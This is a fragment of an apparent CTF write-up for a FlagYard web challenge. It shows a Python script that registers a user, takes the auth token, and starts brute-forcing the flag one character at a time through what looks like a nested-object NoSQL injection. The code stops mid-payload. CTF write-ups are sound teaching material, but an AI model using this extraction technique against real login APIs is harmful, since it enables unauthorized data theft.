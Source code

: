 we we have the flag

<img src="images/image6.png" alt="third" width="500">


complete script:

```python
import requests
import json

# Base URL of the CTF challenge
URL="http://a1e66976e0507ccbd4b60.playat.flagyard.com/"
# Registration credentials
data1 = {"email": "munib@a.com", "password": "a"}

# Register a user
try:
    reg = requests.post(f"{URL}/register", json=data1)
    reg.raise_for_status()
    print("Registration Successful")
except requests.RequestException as e:
    print(f"Error during registration: {e}")
    exit()

# Login and retrieve token
try:
    login = requests.post(f"{URL}/login", json=data1)
    login.raise_for_status()
    token = login.json().get("token")
    if not token:
        print("Error: Token not retrieved during login.")
        exit()
    print(f"Token Retrieved: {token}")
except requests.RequestException as e:
    print(f"Error during login: {e}")
    exit()

# Set up headers for further requests
headers = {
    'Authorization': f'{token}',
    'Content-Type': 'application/json',
}

# Characters to attempt in the password
chars = "0123456789abcdefghijklmnopqrstuvwxyz"
password_prefix = "BHFlagY{"  # Start of the flag
data = {
    "userId": {
        "email": {
```